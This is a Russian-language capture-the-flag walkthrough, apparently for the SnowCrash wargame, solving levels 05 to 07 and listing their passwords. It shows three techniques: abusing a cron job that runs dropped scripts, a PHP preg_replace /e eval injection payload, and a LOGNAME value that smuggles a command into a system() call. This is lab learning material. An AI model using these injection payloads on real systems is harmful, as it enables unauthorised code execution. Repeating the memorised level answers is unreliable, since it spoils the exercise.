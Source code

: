 * Посмотрим, что лежит в `cat /var/mail/level05`
* Видим, что работает крон раз в 2 минуты:
`*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`
* Посмотрим, что это за скриптец:
```
#!/bin/sh
for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
* Видим, что этот скрипт пробегает по вложенным файлам извлекает содержимое и исполняет не больше 5s
* Сделаем скрипт и накинем прав на выполнение `+x`
```
#!/bin/bash
/bin/getflag > /tmp/flag
```

## level06 (viuaaale9huek52boumoomioc)

* Смотрим на файл level06.php, видим что используется `preg_replace` с флагом `е`, которая пораждает уезвимость типа - PREG_REPLACE_EVAL (https://php.ru/manual/reference.pcre.pattern.modifiers.html#reference.pcre.pattern.modifiers.eval)
* Смотрим на регулярку создаем файл с таким контентом: **echo "[x {${`getflag`}}]" > /tmp/l06**
* Дергаем файл и вкачестве аргумента отправляем путь до файла


## level07 (wiok45aaoguiboiki2tuin6ub)
* В директории видим файл level07 это исполняемый файл, выпоним `ltrace ./level07`
получим:
```
level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffffd94, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                                                           = 2007
geteuid()                                                                                           = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                                 = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                                 = 0
getenv("LOGNAME")                                                                                   = "level07"
asprintf(0xbffffce4, 0x8048688, 0xbfffff7c, 0xb7e5ee55,0xb7fed280)                                 = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                              = 0
+++ exited (status 0) +++
```
* Видим что `/bin/echo` печатает значение переменной среды
* Заменим значение переменной среды на `LOGNAME="|getflag"`
* Дернем ./level07
